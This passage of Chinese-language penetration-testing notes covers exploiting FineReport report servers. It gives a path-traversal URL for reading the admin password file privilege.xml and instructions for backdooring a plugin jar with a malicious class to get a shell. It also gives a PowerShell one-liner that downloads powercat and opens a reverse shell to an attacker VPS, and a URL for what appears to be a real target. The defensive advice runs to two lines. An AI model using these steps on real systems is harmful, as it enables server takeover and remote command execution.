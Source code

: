 帆软报表 v8.0 Getshell 漏洞分析 | ADog’s Blog  
[http://foreversong.cn/archives/1378](http://foreversong.cn/archives/1378)

**6\. 漏洞利用**

帆软报表 v8.0 Getshell 漏洞分析 | ADog’s Blog  
[http://foreversong.cn/archives/1378](http://foreversong.cn/archives/1378)

xray/finereport-directory-traversal.yml at master · chaitin/xray  
[https://github.com/chaitin/xray/blob/master/pocs/finereport-directory-traversal.yml](https://github.com/chaitin/xray/blob/master/pocs/finereport-directory-traversal.yml)  
**7\. 利用技巧**

1\. 未设置密码或者读取读取管理员密码  
[https://seeyoon.com/seeyonreport/ReportServer?op=fs\_load&cmd=fs\_signin&\_=1560911828892](https://seeyoon.com/seeyonreport/ReportServer?op=fs_load&cmd=fs_signin&_=1560911828892)

这里很有可能是没有设置密码的, 修改密码进入后台就可以了

如果设置里密码, 尝试这个接口 `/report/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml`, 读取管理员密码, 然后使用上文的解密程序解密

2\. 后台 getshell  
这种后台能装插件的都随便 getshell

先去下载一个指定版本的 jar 包

本地测试环境是 9.0

下载 com.fr.plugin.external-1.3.4.zip  
[https://shop.finereport.com/plugin/2d36b210-2a59-4940-8c4f-f3f16d58cd66](https://shop.finereport.com/plugin/2d36b210-2a59-4940-8c4f-f3f16d58cd66)

[http://shopps.finereport.com/com.fr.plugin.external-1.3.4.zip?e=1561433162&token=GYG9vMioxqbEgx-5HoAMAelD0zGdUrXT4UZ3w-d1:N-PeIkhKkjCY7LHdqelnSvp\_LmA=](http://shopps.finereport.com/com.fr.plugin.external-1.3.4.zip?e=1561433162&token=GYG9vMioxqbEgx-5HoAMAelD0zGdUrXT4UZ3w-d1:N-PeIkhKkjCY7LHdqelnSvp_LmA=)

编译一个恶意的 LocaleFinder.class 打包进去

复制 LocaleFinder.class 到  
`\com.fr.plugin.external-1.3.4.zip\fr-plugin-external-1.3.4\fr-plugin-external-1.3.4.jar\com\fr\plugin\external\locale\`

进入到插件管理界面, 上传符合规范的 jar 包插件即可  
没生效就访问一下 `https://xxxx/seeyonreport/ReportServer?op=im`

一般后台都是 win, 可以直接使用 powershell 进行反弹 shell

`powershell IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c vps_ip -p 6666 -e cmd`

**8\. 防护方法**

1\. 及时更新补丁

2\. 使用 waf 拦截

Smartbi 前台 SQL 注入
-----------------
